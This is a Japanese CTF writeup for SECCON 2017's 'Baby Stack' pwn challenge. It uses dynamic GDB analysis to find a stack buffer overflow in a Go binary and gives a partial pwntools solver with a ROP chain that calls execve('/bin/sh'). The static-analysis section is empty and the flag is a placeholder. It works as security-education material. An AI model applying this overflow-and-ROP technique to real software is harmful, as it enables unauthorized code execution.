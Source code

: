 ---
title: "SECCON CTF 2017 - Baby Stack Writeup"
date: 2023-02-14T11:29:55+09:00
draft: false
summary: "本記事はSECCON CTF 2017のPwn問題Baby StackのWriteupです。"
author: "mc4nf"
---

** 問題
*** 問題文
#+begin_example
Can you do a traditional stack attack?   
#+end_example

*** 配布ファイル
- ~baby_stack-7b078c99bb96de6e5efc2b3da485a9ae8a66fd702b7139baf072ec32175076d8~

#+begin_example
mc4nf@mc4nf:~/ctf/seccon2017/baby_stack$ file baby_stack-7b078c99bb96de6e5efc2b3da485a9ae8a66fd702b7139baf072ec32175076d8 
baby_stack-7b078c99bb96de6e5efc2b3da485a9ae8a66fd702b7139baf072ec32175076d8: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, Go BuildID=bcdb5e02c0606a4c9dd06d1e0dc56dc8564db722, with debug_info, not stripped

mc4nf@mc4nf:~/ctf/seccon2017/baby_stack$ checksec baby_stack-7b078c99bb96de6e5efc2b3da485a9ae8a66fd702b7139baf072ec32175076d8
[*] '/home/mc4nf/ctf/seccon2017/baby_stack/baby_stack-7b078c99bb96de6e5efc2b3da485a9ae8a66fd702b7139baf072ec32175076d8'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
#+end_example
実行ファイルに ~file~ コマンドと ~checksec~ を用いると、
実行ファイルのアーキテクチャはx86-64、
セキュリティ機構は、RELRO、SSP (Stack Smashing Protection)、PIEが無効で、NXのみ有効であることがわかる。

** 方針
この問題では、実行ファイルのみ配布され、問題のソースコードが配布されていない。
このため、問題を解くために以下の手順で脆弱性の調査を行う。
1. 配布された実行ファイルを動作させ、動的解析
2. 配布された実行ファイルを逆アセンブルし、静的解析

** 1. 配布された実行ファイルの動的解析
*** 実行ファイルの動作の確認   
   とりあえず、配布された実行ファイル (以降実行ファイル)の動作がわからない限り何もわからないので、早速実行してみる。
   #+begin_example
mc4nf@mc4nf:~/ctf/seccon2017/baby_stack$ ./baby_stack-7b078c99bb96de6e5efc2b3da485a9ae8a66fd702b7139baf072ec32175076d8 
Please tell me your name >> hoge
Give me your message >> fuga
Thank you, hoge!
msg : fuga
   #+end_example
   実行してみると、 ~Please tell me your name >>~ の文字列の表示の後に1回目の入力(ここでは ~hoge~ を入力)、
   ~Give me your message >>~ の文字列の表示の後に2回目の入力(ここでは ~fuga~ を入力)を促された。
   また、2回の入力が終わると、それぞれ入力した文字列が画面上に表示され、プログラムが終了した。

   問題のタイトルや、実行ファイルに対しSSPが適用されていないことなどから、大量の文字を入力し、スタックバッファオーバフローの脆弱性が存在しているか確認してみる。
   #+begin_example
mc4nf@mc4nf:~/ctf/seccon2017/baby_stack$ ./baby_stack-7b078c99bb96de6e5efc2b3da485a9ae8a66fd702b7139baf072ec32175076d8 
Please tell me your name >> aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Give me your message >> bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb   
panic: runtime error: growslice: cap out of range

goroutine 1 [running]:
panic(0x4e4800, 0xc820076280)
        /usr/lib/go-1.6/src/runtime/panic.go:481 +0x3e6
fmt.(*fmt).padString(0xc82007ae28, 0x6262626262626262, 0x6262626262626262)
        /usr/lib/go-1.6/src/fmt/format.go:130 +0x406
fmt.(*fmt).fmt_s(0xc82007ae28, 0x6262626262626262, 0x6262626262626262)
        /usr/lib/go-1.6/src/fmt/format.go:322 +0x61
fmt.(*pp).fmtString(0xc82007add0, 0x6262626262626262, 0x6262626262626262, 0xc800000073)
        /usr/lib/go-1.6/src/fmt/print.go:521 +0xdc
fmt.(*pp).printArg(0xc82007add0, 0x4c1c00, 0xc820076260, 0x73, 0x0, 0x0)
        /usr/lib/go-1.6/src/fmt/print.go:797 +0xd95
fmt.(*pp).doPrintf(0xc82007add0, 0x5220a0, 0x18, 0xc820045ea8, 0x2, 0x2)
        /usr/lib/go-1.6/src/fmt/print.go:1238 +0x1dcd
fmt.Fprintf(0x7f1b1267a1c0, 0xc82008c008, 0x5220a0, 0x18, 0xc820045ea8, 0x2, 0x2, 0x40beee, 0x0, 0x0)
        /usr/lib/go-1.6/src/fmt/print.go:188 +0x74
fmt.Printf(0x5220a0, 0x18, 0xc820045ea8, 0x2, 0x2, 0x20, 0x0, 0x0)
        /usr/lib/go-1.6/src/fmt/print.go:197 +0x94
main.main()
        /home/yutaro/CTF/SECCON/2017/baby_stack/baby_stack.go:23 +0x45e
   #+end_example
   
   とりあえず、何も考えずに大量の文字列を入力したところ、プログラムがエラーを出力し終了した。
   ここで、出力されたエラーを見てみると、 ~0x6262626262626262~ のような記述が多く見られる。
   ~0x62~ はASCIIコードで ~'b'~ を表わすことから、2回目の入力においてスタックバッファオーバフローが発生していると予想できる。

*** GDBを用いた動的解析
    それでは、だいたいの実行ファイルの動きと脆弱性の存在する箇所の検討がついたことから、GDBを用いて実行ファイルの動きを追ってみる。

    まず、2回目の入力が促されたタイミングでプログラムを停止し、関数の呼び出し履歴を確認してみる。
    #+begin_example
[#0] 0x496a54 → syscall.Syscall()
[#1] 0x4957af → syscall.read(fd=0x0, p={
  array = 0xc820094005 "",
  len = 0xffb,
  cap = 0xffb
}, n=0xc82001ea0c, err={
  tab = 0x0,
  data = 0x0
})
[#2] 0x49529d → syscall.Read(fd=0x0, p={
  array = 0xc820094005 "",
  len = 0xffb,
  cap = 0xffb
}, n=0xc820000180, err={
  tab = 0x0,
  data = 0x0
})
[#3] 0x46aa23 → os.(*File).read(f=0xc820034008, b={
  array = 0xc820094005 "",
  len = 0xffb,
  cap = 0xffb
}, n=0x18, err={
  tab = 0x0,
  data = 0x0
})
[#4] 0x46887a → os.(*File).Read(f=0xc820034008, b={
  array = 0xc820094005 "",
  len = 0xffb,
  cap = 0xffb
}, n=0x4ebb40, err={
  tab = 0x0,
  data = 0x0
})
[#5] 0x46d53b → bufio.(*Scanner).Scan(s=0xc820047ec8, ~r0=0x18)
[#6] 0x4011e8 → main.main()
    #+end_example

    すると、2回目の入力を行う関数は、 ~main.main()~ の ~0x4011e8~ の直前に呼ばれていたことがわかる。
    そこで、 ~main.main()~ の ~0x4011e8~ から先で呼ばれる処理の中で、スタックバッファオーバフローを引き起こすような処理がないかを確認してみる。
    
    以下メモ
    #+begin_example
gef➤  x/10i 0x4011e8
   0x4011e8 <main.main+488>:    mov    rax,QWORD PTR [rsp+0x80]
   0x4011f0 <main.main+496>:    xor    ebx,ebx
   0x4011f2 <main.main+498>:    mov    QWORD PTR [rsp+0x98],rbx
   0x4011fa <main.main+506>:    mov    QWORD PTR [rsp+0xa0],rbx
   0x401202 <main.main+514>:    lea    rbx,[rsp+0x40]
   0x401207 <main.main+519>:    mov    QWORD PTR [rsp],rbx
   0x40120b <main.main+523>:    cmp    rax,0x0
   0x40120f <main.main+527>:    je     0x401498 <main.main+1176>
   0x401215 <main.main+533>:    lea    rbx,[rax+0x20]
   0x401219 <main.main+537>:    lea    rdi,[rsp+0x8]
gef➤  
   0x40121e <main.main+542>:    mov    rcx,QWORD PTR [rbx]
   0x401221 <main.main+545>:    mov    QWORD PTR [rdi],rcx
   0x401224 <main.main+548>:    mov    rcx,QWORD PTR [rbx+0x8]
   0x401228 <main.main+552>:    mov    QWORD PTR [rdi+0x8],rcx
   0x40122c <main.main+556>:    mov    rcx,QWORD PTR [rbx+0x10]
   0x401230 <main.main+560>:    mov    QWORD PTR [rdi+0x10],rcx
   0x401234 <main.main+564>:    call   0x43f630 <runtime.slicebytetostring>
   0x401239 <main.main+569>:    mov    rcx,QWORD PTR [rsp+0x20]
   0x40123e <main.main+574>:    mov    rax,QWORD PTR [rsp+0x28]
   0x401243 <main.main+579>:    mov    QWORD PTR [rsp+0xe8],rcx
gef➤  
   0x40124b <main.main+587>:    mov    QWORD PTR [rsp+0xf0],rax
   0x401253 <main.main+595>:    mov    QWORD PTR [rsp+0x98],rcx
   0x40125b <main.main+603>:    mov    QWORD PTR [rsp+0xa8],rcx
   0x401263 <main.main+611>:    mov    QWORD PTR [rsp+0xa0],rax
   0x40126b <main.main+619>:    mov    QWORD PTR [rsp+0xb0],rax
   0x401273 <main.main+627>:    mov    rax,QWORD PTR [rsp+0xb0]
   0x40127b <main.main+635>:    lea    rbx,[rsp+0x128]
   0x401283 <main.main+643>:    mov    rbp,QWORD PTR [rbx]
   0x401286 <main.main+646>:    mov    QWORD PTR [rsp],rbp
   0x40128a <main.main+650>:    lea    rbx,[rsp+0xa8]
gef➤  
   0x401292 <main.main+658>:    mov    rbp,QWORD PTR [rbx]
   0x401295 <main.main+661>:    mov    QWORD PTR [rsp+0x8],rbp
   0x40129a <main.main+666>:    mov    QWORD PTR [rsp+0x10],rax
   0x40129f <main.main+671>:    call   0x4014f0 <main.memcpy>
   0x4012a4 <main.main+676>:    mov    rbx,QWORD PTR [rsp+0xc8]
   0x4012ac <main.main+684>:    mov    QWORD PTR [rsp+0x118],rbx
   0x4012b4 <main.main+692>:    mov    rbx,QWORD PTR [rsp+0xd0]
   0x4012bc <main.main+700>:    mov    QWORD PTR [rsp+0x120],rbx
   0x4012c4 <main.main+708>:    mov    QWORD PTR [rsp],0x0
   0x4012cc <main.main+716>:    mov    rbx,QWORD PTR [rsp+0x128]
gef➤  
   0x4012d4 <main.main+724>:    mov    QWORD PTR [rsp+0x8],rbx
   0x4012d9 <main.main+729>:    mov    rbx,QWORD PTR [rsp+0x130]
   0x4012e1 <main.main+737>:    mov    QWORD PTR [rsp+0x10],rbx
   0x4012e6 <main.main+742>:    mov    rbx,QWORD PTR [rsp+0x138]
   0x4012ee <main.main+750>:    mov    QWORD PTR [rsp+0x18],rbx
   0x4012f3 <main.main+755>:    call   0x43f630 <runtime.slicebytetostring>

    #+end_example

    すると、 ~0x40129f~ において、 ~main.memcpy~ という関数が呼ばれており、この関数内で何かしらの脆弱性に関する操作が行われていると考えられる。
    そこで、 ~main.memcpy~ の処理をGDBを用いて追うことで、処理内容を確認してみる。

     ~main.memcpy~ が呼び出されたときのスタックの状態を確認する。
     #+begin_example
gef➤  dereference
0x000000c820051d48│+0x0000: 0x00000000004012a4  →  <main.main+676> mov rbx, QWORD PTR [rsp+0xc8]   ← $rsp
0x000000c820051d50│+0x0008: 0x000000c820051db0  →  0x0000000000000000
0x000000c820051d58│+0x0010: 0x000000c820051d90  →  "aaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
0x000000c820051d60│+0x0018: 0x000000000000001d
0x000000c820051d68│+0x0020: 0x0000000000000ffb
0x000000c820051d70│+0x0028: 0x000000c820051d90  →  "aaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
0x000000c820051d78│+0x0030: 0x000000000000001d
0x000000c820051d80│+0x0038: 0x0000000000000000
0x000000c820051d88│+0x0040: 0x0000000000000000
0x000000c820051d90│+0x0048: "aaaaaaaaaaaaaaaaaaaaaaaaaaaaa"      ← $rcx, $rbp, $rdi
gef➤
0x000000c820051d98│+0x0050: "aaaaaaaaaaaaaaaaaaaaa"
0x000000c820051da0│+0x0058: "aaaaaaaaaaaaa"
0x000000c820051da8│+0x0060: 0x0000006161616161 ("aaaaa"?)
0x000000c820051db0│+0x0068: 0x0000000000000000 <-ここから0x20バイトは空の領域が確保されている
0x000000c820051db8│+0x0070: 0x0000000000000000
0x000000c820051dc0│+0x0078: 0x0000000000000000
0x000000c820051dc8│+0x0080: 0x0000000000000000 <- ここまで
0x000000c820051dd0│+0x0088: 0x000000c820051ec8  →  0x00007ffff7f6d1c0  →  0x00000000004dfc00  →  0x0000000000000010
0x000000c820051dd8│+0x0090: 0x000000c8200a2000  →  0x0000000065676f68 ("hoge"?)
0x000000c820051de0│+0x0098: 0x0000000000000004
     #+end_example

     ~"aaaa..."~ を入力し、 ~main.memcpy~ の処理が終了した後のスタックの状態も確認する。
     #+begin_example
gef➤  dereference
0x000000c820051d50│+0x0000: 0x000000c820051db0  →  "aaaaaaaaaaaaaaaaaaaaaaaaaaaaa"       ← $rsp
0x000000c820051d58│+0x0008: 0x000000c820051d90  →  "aaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
0x000000c820051d60│+0x0010: 0x000000000000001d
0x000000c820051d68│+0x0018: 0x0000000000000ffb
0x000000c820051d70│+0x0020: 0x000000c820051d90  →  "aaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
0x000000c820051d78│+0x0028: 0x000000000000001d
0x000000c820051d80│+0x0030: 0x0000000000000000
0x000000c820051d88│+0x0038: 0x0000000000000000
0x000000c820051d90│+0x0040: "aaaaaaaaaaaaaaaaaaaaaaaaaaaaa"      ← $rbp, $rdi
0x000000c820051d98│+0x0048: "aaaaaaaaaaaaaaaaaaaaa"
gef➤
0x000000c820051da0│+0x0050: "aaaaaaaaaaaaa"
0x000000c820051da8│+0x0058: 0x0000006161616161 ("aaaaa"?)
0x000000c820051db0│+0x0060: "aaaaaaaaaaaaaaaaaaaaaaaaaaaaa" <- 空だった領域に文字列がコピー
0x000000c820051db8│+0x0068: "aaaaaaaaaaaaaaaaaaaaa"
0x000000c820051dc0│+0x0070: "aaaaaaaaaaaaa"
0x000000c820051dc8│+0x0078: 0x0000006161616161 ("aaaaa"?)  <- ここまで
0x000000c820051dd0│+0x0080: 0x000000c820051ec8  →  0x00007ffff7f6d1c0  →  0x00000000004dfc00  →  0x0000000000000010
0x000000c820051dd8│+0x0088: 0x000000c8200a2000  →  0x0000000065676f68 ("hoge"?)
0x000000c820051de0│+0x0090: 0x0000000000000004
0x000000c820051de8│+0x0098: 0x000000c820051d90  →  "aaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
     #+end_example

     この2つのスタックの状態を確認してみると、 ~main.memcpy~ 呼び出し前は ~0x000000c820051db0~ から ~0x20~ バイトの領域は ~0~ であったものの、
     呼び出し後には、 ~"aaaa..."~ がコピーされていることがわかる。
     
     このことから、 ~main.memcpy~ によって2回目に入力した文字列がコピーされる領域は、 ~0x20~ バイト確保されていることがわかる。     
     ここで、 ~0x20~ バイト以上の長さの文字列を入力してみると、本来用意されていたコピー先の領域を超えて、スタックバッファオーバフローが発生することを確認できる。
     #+begin_example
...     
0x000000c820051db0│+0x0060: 0x6161616161616161
0x000000c820051db8│+0x0068: 0x6161616161616161
0x000000c820051dc0│+0x0070: 0x6161616161616161
0x000000c820051dc8│+0x0078: 0x6161616161616161 
0x000000c820051dd0│+0x0080: 0x6161616161616161 <- スタックバッファオーバフローが発生
0x000000c820051dd8│+0x0088: 0x6161616161616161
0x000000c820051de0│+0x0090: 0x0000000000000005   ← $rdx
0x000000c820051de8│+0x0098: 0x000000c820012180  →  0x6161616161616161
...
     #+end_example

     ここまでの調査で、スタックバッファオーバフローが発生する箇所を特定できた。
     次に、この脆弱性を用いてどのようにして任意のアドレスに飛ばすか考える。

     ここで、スタックの続きを見てみると、 ~rsp + 0x148~ にあたるアドレスに、リターンアドレスが格納されていることがわかる。

     #+begin_example
...     
0x000000c820051e90│+0x0140: 0x0000000000000000
0x000000c820051e98│+0x0148: 0x000000000040ea82  →  <runtime.newobject+66> mov rbx, QWORD PTR [rsp+0x18] <- 後にRIPに格納される値
...
     #+end_example
     そこで、このアドレスを書き換えることにより、任意のアドレスへのジャンプを行う。

     次に、RIPの書き換えを行ったのち、シェルを起動する方法を考える。

     
** 2. 配布された実行ファイルの静的解析

** solver

   途中まで
   #+begin_src python
from pwn import *

filename = './baby_stack-7b078c99bb96de6e5efc2b3da485a9ae8a66fd702b7139baf072ec32175076d8'
chall = ELF(filename)

# docker-compose up
# conn = remote('localhost', 9001)
conn = process(filename)

# ROP Gadgets
sh_str = 0x4d1f72
bss_addr = 0x000000000058e000

hoge_str = 0x000000c8200a2000

## 0x00000000004026da: syscall;
syscall = 0x00000000004026da

## 0x0000000000470931: pop rdi; or byte ptr [rax + 0x39], cl; ret;
pop_rdi = 0x0000000000470931

## 0x000000000046defd: pop rsi; ret;
pop_rsi = 0x000000000046defd

## 0x00000000004016ea: pop rax; ret;
pop_rax = 0x00000000004016ea

## 0x0000000000448145: pop rdx; setbe byte ptr [rsp + 0x50]; add rsp, 0x38; ret;
pop_rdx = 0x0000000000448145


# Input name (First input)
buf1 = b"hoge"
conn.sendline(buf1)

# Input msg (Second input)
# 0x000000c820047db0│+0x0060: 0x0000000061677566 ("fuga"?)
# ...
# 0x000000c820047e98│+0x0148: <runtime.newobject+66> mov rbx, QWORD PTR [rsp+0x18]
# 0x000000c820051f48│+0x0200: 0x0000000000429ef0  →  <runtime.main+688> mov ebx, DWORD PTR [rip+0x1903c2]        # 0x5ba2b8 <runtime.panicking>

# buf2 = b'a'*0x20
buf2 = b'a'*(0x88-0x60)
buf2 += p64(hoge_str)
buf2 += b'a'*(0xc8-0x60-len(buf2))
buf2 += p64(hoge_str)
buf2 += b'a'*(0x128-0x60-len(buf2))
buf2 += p64(hoge_str)
# buf2 += b'a'*(0x148-0x60-len(buf2))
# buf2 += p64(hoge_str)
buf2 += b'a'*(0x1f8-0x60-len(buf2))

# buf2 = b'\x00'*(0x1f8-0x60)

# ROP
buf2 += p64(pop_rdx)
buf2 += p64(0)
buf2 += b'a'*0x38
buf2 += p64(pop_rsi)
buf2 += p64(0)
buf2 += p64(pop_rdi)
buf2 += p64(sh_str)
buf2 += p64(pop_rax)
buf2 += p64(59)
buf2 += p64(syscall)

conn.sendline(buf2)

conn.interactive()
   #+end_src

*** Flag
    ~SECCON{---}~
   

